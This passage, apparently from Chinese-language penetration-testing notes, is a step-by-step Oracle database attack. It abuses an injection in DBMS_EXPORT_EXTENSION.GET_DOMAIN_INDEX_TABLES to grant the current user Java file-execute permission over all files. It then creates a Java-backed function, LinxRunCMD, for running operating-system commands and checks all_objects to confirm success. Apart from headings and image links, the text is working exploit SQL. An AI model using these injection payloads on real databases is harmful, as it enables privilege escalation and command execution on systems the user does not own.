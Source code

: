 **赋予当前用户Java权限**

```
--当前用户查看
select user from dual

select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''YY'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;
```

**通过以下命令可以查看all_objects内部改变：**

```
select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%'
```

![9801e9db8da423748879556449100592](assets/9801e9db8da423748879556449100592.png)

**创建函数**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

**判断是否创建成功**

```
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'
```

<img src="assets/6c90692b1e14f60b76b83c6a3caa8c07.png" alt="6c90692b1e14f60b76b83c6a3caa8c07" style="zoom:50%;" />



**也可通过查看all_objects内部改变判断**

![66e1f40cb4f68d2cb6cdad10bb98ac2e](assets/66e1f40cb4f68d2cb6cdad10bb98ac2e.png)
